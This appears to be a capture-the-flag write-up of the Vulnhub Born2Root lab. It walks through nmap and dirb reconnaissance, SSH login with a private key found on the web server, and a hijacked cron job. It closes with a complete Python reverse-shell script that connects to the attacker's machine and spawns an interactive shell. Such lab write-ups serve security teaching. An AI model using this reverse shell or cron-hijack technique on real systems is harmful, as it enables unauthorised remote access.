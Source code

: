 # **Born2Root: CTF challenge on Vulnhub**

## **Scenario**
This laboratory descibes an attack towards a VM called _Born2Root_ that contains 3 different users. The objective is to capture the flag after obtaining root priviledges on target machine.

**Threat model**: the adversary has access to the subnet where the target machine is located

## **Virtual Enviroments**
1. **Kali Linux 2023.3** -> attacker machine
2. **Born2Root Debian 32 bits** -> target VM that contains the flag

## **Tools**
1. **Nmap** -> Identify devices and open ports
2. **Dirb** ->  command-line web content scanner used for brute-forcing directories and files on web servers
3. **Netcat** -> tool used for starting a listener on a certain port
4. **Cupp** -> tool designed for social engineering-based password list generation
5. **Crunch** -> command-line tool used to generate custom wordlists

## **Execution Steps**

### Network Discovery

The attacker uses `ip a` to gain knowledge of his private ip (10.0.2.4 in this case) and uses this information to gain knowledge of the network with the command `nmap -sV 10.0.2.0/24 `.

"-sV" abilitates nmap to try and determine the services on the open ports.

![nmap_command_result](images/nmap_result.png)

Port 80 is open so the attacker types the ip address of the target machine in his browser tab, accessing the following web page:

![web_page_image](images/web_page.png)

No notable information can be found here, so the attacker uses the command `dirb http://10.0.2.5` to explore more directories in hopes of finding useful data.
The results from this operation are as follows:

```markdown
---- Scanning URL: http://10.0.2.5/ ----
==> DIRECTORY: http://10.0.2.5/files/                                                                   
==> DIRECTORY: http://10.0.2.5/icons/                                                                                                                     
+ http://10.0.2.5/index.html (CODE:200|SIZE:5651)                                                                                                    
==> DIRECTORY: http://10.0.2.5/manual/                                                                                                                    
+ http://10.0.2.5/robots.txt (CODE:200|SIZE:57)                                                                                                           
+ http://10.0.2.5/server-status (CODE:403|SIZE:296) 
```

After some exploration, with his browser, of the directories the attacker understands that the only interesting one is /icons.
He finds a file called **VDSoyuAXiO.txt**, that contains a private key!

Once copied to the sshKey.txt file it is ready to be used to spawn a shell using ssh.
The code used is the following:

1. `chmod 600 sshKey`: commmand  needed because ssh only accepts a key that can be read by the propetary

2. `ssh -i sshKey martin@10.0.2.5`: the _-i_ is used to specify a certain private key. This command doesn't work because of the following error: _sign_and_send_pubkey: no mutual signature supported_. This happens because the private key is RSA and in modern clients this cryptography is deactivated by default (weak keys).

3. `ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -o HostkeyAlgorithms=+ssh-rsa -i sshKey martin@10.0.2.5`: this is the command that abilitates the use of RSA keys and spawns a shell on the target machine as user martin.
   
![martin_ssh](images/martin_ssh.png)

Once inside we explore the file system starting from / and we encounter the file **Crontab** in /etc/Crontab.
This is a file that specifies scheduled tasks on Unix/Linux Systems.

![crontab](images/crontab.png)

The attacker finds that a file to called **sekurity.py**, in the /tmp/, is to be executed every 5 minutes. But the file is missing from the folder. So we create a reverse shell of our own and save it as sekurity.py in the /tmp/ folder.

content of the file sekurity.py:

```python
  #!/usr/bin/python  ->  used to activate the python interpreter
  import socket,subprocess,os 
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) # -> creates an IPv4 socket
  s.connect(("10.0.2.4",1337)) # -> connects the socket to Kali machine on port 1337
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2) # -> redirecting all stdin, stdout, stderrof the process to the socket
  p=subprocess.call(["/bin/sh","-i"])  # -> starts an interactive shell that communicates over the socket
```

<!-- ![Photo of Mountain](screenshot.png) -->

<!-- [Docsify](https://docsify.js.org/#/) -->

